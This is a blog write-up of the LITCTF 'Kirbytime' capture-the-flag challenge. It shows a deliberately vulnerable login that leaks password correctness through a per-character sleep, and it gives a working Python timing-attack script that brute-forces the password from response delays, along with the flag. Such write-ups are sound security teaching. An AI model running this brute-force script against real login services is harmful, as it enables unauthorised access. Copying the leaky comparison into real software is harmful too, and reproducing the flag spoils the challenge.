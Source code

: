 ```yaml
---
title: Kirbytime
date : 2024-08-13 10:00:00 +0530
categories: [litctf]
tags: [litctf, ctf]
description: kirbytime
---
```


## Description

Welcome to Kirby's Website.

## Source Code

```python
@app.route('/', methods=['GET', 'POST'])
def login():
    message = None
    if request.method == 'POST':
        password = request.form['password']
        real = 'ABCDEFG'
        if len(password) != 7:
            return render_template('login.html', message="you need 7 chars")
        for i in range(len(password)):
            if password[i] != real[i]:
                message = "incorrect"
                return render_template('login.html', message=message)
            else:
                time.sleep(1)
        if password == real:
            message = "yayy! hi kirby"

    return render_template('login.html', message=message)
```

![kirby1](/assets/posts/LITCTF/kirby1.png)

## Analysis

The website is a simple login page. We have to enter the correct password to get the flag. The password is the flag.

So the password checker is interesting. The first condition is very simple which is password is 7 characters long. The second condition is where the magic happens.

The 2nd function checks the password character by character. If the character is correct it waits for 1 second. If the character is incorrect it returns incorrect.

## How to abuse this

So the condition of `time.sleep(1)` helps us indicate if the character we entered is correct or not. If the character is correct it waits for 1 more second ie. Our wait time increases as the correct characters increase.

So we can bruteforce the password character by character. Which makes the usual `52^7` bruteforce to `52*7` bruteforce which is very doable. ( considering only alphabets )

## Bruteforce Script

So we can write a script where we calculate the delay and if the delay is increased we can move to the next character as that will be the correct character.

```python
import requests 
import time

url = "<url>"
def brute_password():
    chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = "aaaaaaa" #kBySlaY
    i,j,p = 0,0,0
    while True:
        while j < len(chars):
            # see the delay. 
            starttime = time.time()
            response = requests.post(url, data={"password": password}).text
            endtime = time.time()

            if "yayy! hi kirby" in response:
                return password
            delay = endtime - starttime

            i = int(delay) #flooring the delay. ( note if your internet is slow/ you are far away from server u might need to subtract some value from delay, I had a avg of 0.5s response time)
            if i > p:
                p = i #previous correct character count
                j = 0
            password = password[:i] + chars[j] + password[i+1:]
            j+=1

password = brute_password()
print(f"Password found: {password}") #kBySlaY
```

Now this script does take some time ~30-40 minutes to get the flag. I tried to use conconcurrency but the server was not responding well to concurrent requests as it did on my local instance. So I had to go with a single request at a time approach.

Tested the password we got once and submitted the flag.

![kirby2](/assets/posts/LITCTF/kirby2.png)

> `Flag: LITCTF{kBySlaY}`

---

[back to index](https://p-pratik.github.io/posts/LIT-Index/)
